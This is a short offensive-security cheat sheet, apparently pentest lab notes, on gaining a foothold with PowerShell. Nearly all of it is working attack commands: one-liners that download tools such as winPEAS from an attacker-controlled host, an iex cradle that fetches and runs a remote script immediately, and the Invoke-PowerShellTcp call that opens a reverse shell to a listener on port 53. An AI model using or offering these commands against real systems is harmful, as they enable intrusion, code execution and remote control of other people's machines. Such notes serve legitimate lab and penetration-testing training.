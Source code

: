 # PowerShell
## Gaining Foothold
Using PowerShell, you can download and execute files just like you would with Netcat.
```powershell
# Download Files
powershell -c "(new-object system.net.webclient).downloadfile('http://10.10.10.10/wget.exe','C:\Users\offsec\Desktop\wget.exe')"

# Download files
Invoke-WebRequest -Uri "http://10.10.10.10/winPEASany.exe" -OutFile "C:\windows\system32\inetsrv\winpeasany.exe"

# Download and execute file immediately
powershell iex(new-object net.webclient).downloadstring('http://10.10.10.10/shell.ps1')
```

Invoke-PowerShellTcp.ps1 is usually my go to powershell script for getting a reverse shell. Just remember to add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 53` to the bottom of the script.

